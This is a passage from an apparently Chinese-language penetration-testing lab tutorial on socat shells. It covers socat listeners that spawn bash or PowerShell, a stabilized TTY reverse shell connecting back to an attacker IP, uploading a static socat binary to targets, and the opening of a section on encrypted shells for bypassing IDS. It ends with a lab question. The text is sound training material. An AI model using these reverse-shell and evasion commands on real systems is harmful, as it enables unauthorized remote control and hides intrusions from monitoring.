 ```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```
    
在 Windows 目标上，我们将为我们的侦听器使用此命令：
```bash
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

我们使用 “pipes” 参数来连接 Unix 和 Windows 在 CLI 环境中处理输入和输出的方式。 
无论目标是什么，我们都在我们的攻击机器上使用这个命令来连接到等待的监听器。 
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

现在让我们来看看 Socat 的一个更强大的用途：一个完全稳定的 Linux tty 反向 shell。这仅在目标为 Linux 时有效，但要稳定得多。如前所述，socat 是一个非常通用的工具；然而，以下技术可能是其最有用的应用之一。这是新的侦听器语法： 
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0 
```

让我们把这条命令分解成两部分。像往常一样，我们将两点连接在一起。在这种情况下，这些点是一个监听端口和一个文件。具体来说，我们将当前 TTY 作为文件传递，并将 echo 设置为零。这大约相当于使用 netcat shell 时使用的 Ctrl + Z, `stty raw -echo;fg` 技巧

第一个侦听器可以连接到任何有效负载；但是，这个特殊的侦听器必须使用非常具体的 socat 命令来激活。这意味着目标必须安装 socat。然而大多数机器默认情况下没有安装 socat，但我们可以上传[预编译的 socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) 二进制文件到目标上，然后就可以正常执行。
特殊命令如下： 
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

以上命令稍显复杂，所以让我们分解一下。 第一个部分很简单——我们要连接到我们自己机器上运行的侦听器。命令的第二部分使用 `EXEC:"bash -li"` 创建一个交互式 bash 会话。我们还传递参数：pty、stderr、sigint、setsid 和 sane： 
- pty 在目标上分配一个伪终端——稳定过程的一部分 
- stderr 确保任何错误消息都显示在 shell 中（通常是非交互式 shell 的问题） 
- sigint 将任何 Ctrl + C 命令传递到子进程中，允许我们在 shell 中终止命令 
- setsid 在新会话中创建进程 
- sane 稳定终端，试图 “正常化” 它。 


要接受的内容很多，所以让我们看看它的实际应用。 

与往常一样，在左侧我们有一个在本地攻击机器上运行的侦听器，在右侧我们有一个受感染目标的模拟，使用非交互式 shell 运行。

![](https://i.imgur.com/yXPuINO.png)

使用非交互式 netcat shell，我们执行特殊的 socat 命令，并在左侧的 socat 侦听器上接收到一个完全交互式的 bash shell：

请注意，socat shell 是完全交互式的，允许我们使用交互式命令，例如 SSH。然后可以通过设置 stty 值来进一步改进，如上一个任务中所示，这将让我们使用 Vim 或 Nano 等文本编辑器。 如果在任何时候 socat shell 无法正常工作，那么通过在命令中添加 `-d -d` 来增加详细程度是非常值得的。这对于实验目的非常有用，但对于一般用途通常不是必需的。

**回答以下问题：**
1. 我们如何让 socat 监听 TCP 端口 8080？

### 2.7 加密的 Socat Shells
socat 的众多优点之一是它能够创建加密的 shell —— 反向和正向 shell 都可加密。我们为什么要这样做？除非您拥有解密密钥，否则无法监视加密的 shell，因此通常能够绕过 IDS。

我们在上一个任务中介绍了如何创建基本的 shell，因此这里不再介绍语法。一句话足以说明如何使用加密shell：将原命令中的 `TCP` 部分换成 `OPENSSL` 即可。我们将在任务结束时介绍几个示例，但首先让我们谈谈证书。
